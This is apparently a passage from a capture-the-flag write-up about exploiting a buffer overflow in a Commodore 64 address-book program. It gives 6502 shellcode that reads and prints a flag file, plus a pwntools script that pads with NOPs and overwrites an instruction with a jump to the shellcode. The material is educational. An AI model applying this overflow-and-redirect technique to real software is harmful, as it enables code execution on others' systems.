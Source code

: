 ```bash
            bcs     exit

            lda     #<buffer
            sta     STRLO
            lda     #>buffer
            sta     STRHI
            ldy     #$ff
l0          iny
            lda     (STRLO),Y
            jsr     CHROUT
            bne     l0

exit        rts
```

One minor thing to note is that the program is not loaded to the default base address `0xc000` but to `0xc036` since we enter the program as `phone number` when creating a new contact and the offset of the phone number of the first entry is located at this address (`3 byte for jump to program start + 25 bytes for first name + 25 bytes for last name`). Next we need to find a place where we can redirect the program flow.

If we assemble this and pass it to the program nothing exciting is happening. This is since we overflow our record but we don't overflow the buffer containing all records. To check if our idea is working we can just add a lot of random bytes and see when the program is crashing. Since it's crashing at a certain point we know we ideed can override the loaded program bytecodes. Now we only need to see how we can redirect the program flow to our shellcode. If we check out the code that reads the phone number we see the following:

```bash
0407 LDX b3
0409 LDY c2
040b JSR c320
040e LDX c3ae
0411 LDY c3af
0414 LDA 32
0416 JSR c355
0419 JSR c49b           ; jump to 'user_input' where our code is read
                        ; after all input is send the program returns from the
                        ; subroutine and picks up flow at address $c41c

041c INC c003           ; increment number of entries
```

We could redirect the program flow by overriding `INC c003` with a jump to our shellcode (`JMP c036`). We can see in our disassembly that the opcode is located at offset `c41c` so we padd our shellcode with a lot of `NOP` until reaching the `INC` and then emitting our instruction to jump back to our shellcode start.

Putting it to work we can write a small python script that automates the progress:

```python
from pwn import *

shellcode = [0x4C, 0x6C, 0xC0, 0x66, 0x6C, 0x61, 0x67, 0x2E, 0x74, 0x78, 0x74, 0x00,
             0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
             0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
             0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
             0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xA9, 0x09, 0xA2, 0x39, 0xA0, 0xC0,
             0x20, 0xBD, 0xFF, 0xA9, 0x01, 0xA6, 0xBA, 0xD0, 0x02, 0xA2, 0x08, 0xA0,
             0x00, 0x20, 0xBA, 0xFF, 0xA2, 0x42, 0xA0, 0xC0, 0xA9, 0x00, 0x20, 0xD5,
             0xFF, 0xB0, 0x12, 0xA9, 0x42, 0x85, 0xFB, 0xA9, 0xC0, 0x85, 0xFC, 0xA0,
             0xFF, 0xC8, 0xB1, 0xFB, 0x20, 0xD2, 0xFF, 0xD0, 0xF8, 0x60]

payload = bytes(shellcode)
payload += (0x41c-0xa0) * b"\xea"   # padd to reach 'INC c003' instruction
payload += b"\x4c\x36\xc0"          # overriding it with 'JMP c036'
```